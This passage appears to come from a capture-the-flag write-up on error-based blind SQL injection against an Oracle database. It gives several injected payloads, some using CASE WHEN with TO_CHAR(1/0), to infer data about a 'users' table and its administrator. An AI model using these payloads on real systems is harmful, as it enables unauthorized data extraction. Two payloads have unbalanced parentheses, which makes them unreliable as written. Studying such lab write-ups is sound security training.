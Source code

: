**Query Injected:**


```sql
'||(SELECT '' FROM users WHERE username='administratorasdlkfasdf')||'
```

- Supposedly this should not work as that is not the username for the administrator

- Shows that this method of exfiltrating data is unreliable

- Confirms that directly checking for the administrator account is unreliable

<br/>

<br/>

![1794c857_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/a8699a42-f594-42f4-8476-d27c0bf2d299)

**Query:**

- Forcing errors based on conditions to exfiltrate data


```sql
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual||'
```

- When 1=1, it displays a server error which shows that the conditional query worked

- **TO_CHAR(1/0)** is what triggers the error due to the fact that 1 is divided by 0

<br/>

<br/>

![26ca6ca0_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/192dada5-c6a2-428a-bd12-5df602061b5e)

**Query:**


```sql
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

- Forcing errors based on conditions to exfiltrate data

- Similar from before but this time the case is “1=2” which is false and hence does not cause an error based on the condition

<br/>

<br/>

![1ccc9e91_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/cf316c22-7dfa-4fab-8e73-504dc42a6269)

**Query Injected:**


```sql
'|| SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
